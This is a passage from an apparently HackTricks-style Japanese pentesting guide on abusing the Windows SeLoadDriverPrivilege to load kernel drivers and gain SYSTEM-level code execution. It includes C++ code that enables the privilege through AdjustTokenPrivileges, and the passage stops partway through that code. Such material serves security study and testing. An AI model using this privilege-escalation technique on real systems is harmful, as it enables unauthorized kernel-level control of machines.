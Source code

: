 # SeLoadDriverPrivilege の悪用

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## SeLoadDriverPrivilege <a href="#seloaddriverprivilege" id="seloaddriverprivilege"></a>

どのユーザーにも割り当てるのは非常に危険な特権です。これにより、ユーザーはカーネルドライバをロードし、カーネル特権でコードを実行することができます（`NT\System`）。以下のスクリーンショットでは、`offense\spotless` ユーザーがこの特権を持っていることがわかります：

![](../../../.gitbook/assets/a8.png)

`Whoami /priv` コマンドでは、この特権がデフォルトで無効になっていることがわかります：

![](../../../.gitbook/assets/a9.png)

しかし、以下のコードを使用すると、この特権を簡単に有効にすることができます：

{% code title="privileges.cpp" %}
```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>

int main()
{
TOKEN_PRIVILEGES tp;
LUID luid;
bool bEnablePrivilege(true);
HANDLE hToken(NULL);
OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

if (!LookupPrivilegeValue(
NULL,            // lookup privilege on local system
L"SeLoadDriverPrivilege",   // privilege to lookup
&luid))        // receives LUID of privilege
{
printf("LookupPrivilegeValue error: %un", GetLastError());
return FALSE;
}
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;

if (bEnablePrivilege) {
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
}

// Enable the privilege or disable all privileges.
if (!AdjustTokenPrivileges(
hToken,
FALSE,
&tp,
sizeof(TOKEN_PRIVILEGES),
(PTOKEN_PRIVILEGES)NULL,
(PDWORD)NULL))
{
printf("AdjustTokenPrivileges error: %x", GetLastError());
return FALSE;
}
```